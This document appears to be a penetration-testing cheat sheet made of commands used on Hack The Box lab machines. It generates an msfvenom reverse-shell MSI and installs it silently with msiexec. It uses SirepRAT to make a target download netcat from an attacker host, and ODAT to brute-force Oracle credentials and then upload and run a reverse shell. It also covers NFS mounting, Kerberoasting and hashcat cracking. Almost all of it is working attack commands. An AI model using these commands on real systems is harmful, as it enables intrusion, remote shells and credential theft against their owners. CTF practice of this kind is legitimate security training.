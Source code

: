 ```shell
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f msi -o reverse.msi
```

```powershell
msiexec /quiet /qn /i <payload>
```

Used in ```Omni```

[SirepRAT.py](https://github.com/SafeBreach-Labs/SirepRAT)

```
python SirepRAT.py <target ip> LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c     Powershell Invoke-WebRequest -OutFile C:\Data\Users\DefaultAccount\Documents\nc64.exe -Uri http://<attacker ip>/nc64.exe "
```

Used in ```Remote```

NFS Service

```shell
showmount -e <target ip>
mkdir /tmp/test_folder
sudo mount -t nfs <target ip>:/<folder> /tmp/test_folder -o nolock
```

Used in ```Silo```

[ODAT(Oracle Database Attacking Tool)](https://github.com/quentinhardy/odat)

```shell
# searching valid SIDs
python3 odat.py sidguesser -s <target ip> --sids-file=./resources/sids.txt
# using default list (accounts/accounts.txt) to execute brute-force attacks
python3 odat.py passwordguesser -s <target ip> -d <sid> -vvv
# upload reverse shell payload 
python3 odat.py utlfile -s <target ip> -p <target port> -U <username> -P <password> -d <sid> --sysdba --putFile c:/ shell-x64.exe /tmp/shell-x64.exe
# execute reverse shell payload
python3 odat.py externaltable -s <target ip> -p <target port> -U <username> -P <password> -d <sid> --sysdba --exec c:/ shell-x64.exe
```

Used in ```Scrambled```

```shell
python3 getTGT.py scrm.local/ksimpson:ksimpson -k -dc-ip 10.10.11.168
export KRB5CCNAME=ksimpson.ccache
klist
python3 GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168 -dc-host dc1.scrm.local -k -request
# -k Use Kerberos authentication 
```

host machine

```cmd
 .\hashcat.exe -m 13100 .\hash .\rockyou.txt
```

